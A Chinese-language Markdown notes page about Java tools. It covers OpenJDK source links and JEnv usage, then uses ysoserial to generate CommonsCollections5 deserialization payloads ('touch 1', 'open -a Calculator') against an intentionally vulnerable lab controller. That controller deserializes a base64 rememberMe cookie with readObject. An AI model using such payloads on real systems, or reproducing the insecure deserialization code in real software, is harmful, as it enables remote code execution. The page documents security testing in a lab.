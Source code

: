 ```yaml
---
tags:
    - Java
    - Tool
comments: true
---
```


# Java Tools

## JDK 各版本源码

- [openjdk-sources](https://openjdk-sources.osci.io/){target="_blank"}
- [openjdk Mercurial repository](https://hg.openjdk.org/){target="_blank"}

## JEnv for windows
[JEnv](https://github.com/FelixSelter/JEnv-for-Windows){target=_blank}是一个命令行工具，用于在不同的Java版本之间切换。它可以设置全局Java版本或者项目级别的Java版本。

**安装:**
git clone到本地，以管理员身份运行`jenv.bat`即可。
```bash
jenv -h
"jenv list"                            List all registered Java-Envs.
"jenv add <name> <path>"               Adds a new Java-Version to JEnv which can be refferenced by the given name
"jenv remove <name>"                   Removes the specified Java-Version from JEnv
"jenv change <name>"                   Applys the given Java-Version globaly for all restarted shells and this one
"jenv use <name>"                      Applys the given Java-Version locally for the current shell
"jenv local <name>"                    Will use the given Java-Version whenever in this folder. Will set the Java-version for all subfolders as well
"jenv link <executable>"               Creates shortcuts for executables inside JAVA_HOME. For example "javac"
"jenv uninstall <name>"                Deletes JEnv and restores the specified java version to the system. You may keep your config file
"jenv autoscan [--yes|-y] ?<path>?"    Will scan the given path for java installations and ask to add them to JEnv. Path is optional and "--yes|-y" accepts defaults.
Get help for individual commands using "jenv <list/add/remove/change/use/local> --help"
```

## ysoserial

[ysoserial](https://github.com/frohoff/ysoserial){target="_blank"}是一个用于生成各种序列化payload的工具，可以用于测试Java反序列化漏洞。

- 需求：JDK 1.7+
- 用法：`java -jar ysoserial.jar [payload] '[command]'`

使用 javasec 靶场deserial漏洞测试：

```bash
# certutil 为windows自带工具，用于base64编码，格式为：certutil -f -encode inputfile outputfile
java -jar ysoserial.jar CommonsCollections5 "touch 1" > 1.txt & certutil -f -encode 1.txt 1
```

```java title="反序列化漏洞代码"
public class Deserialize {

    protected final Logger logger = LoggerFactory.getLogger(this.getClass());

    /**
     * java -jar ysoserial.jar CommonsCollections5 "open -a Calculator" | base64 <br>
     * <a href="http://localhost:8080/deserialize/rememberMe/vuln">http://localhost:8080/deserialize/rememberMe/vuln</a>
     */
    @RequestMapping("/rememberMe/vuln")
    public String rememberMeVul(HttpServletRequest request)
            throws IOException, ClassNotFoundException {

        Cookie cookie = getCookie(request, Constants.REMEMBER_ME_COOKIE);
        if (null == cookie) {
            return "No rememberMe cookie. Right?";
        }

        String rememberMe = cookie.getValue();
        byte[] decoded = Base64.getDecoder().decode(rememberMe);

        ByteArrayInputStream bytes = new ByteArrayInputStream(decoded);
        ObjectInputStream in = new ObjectInputStream(bytes);
        in.readObject();
        in.close();

        return "Are u ok?";
    }
}
```

测试结果如下:

![alt text](img/ysoserial.png){loading="lazy"}
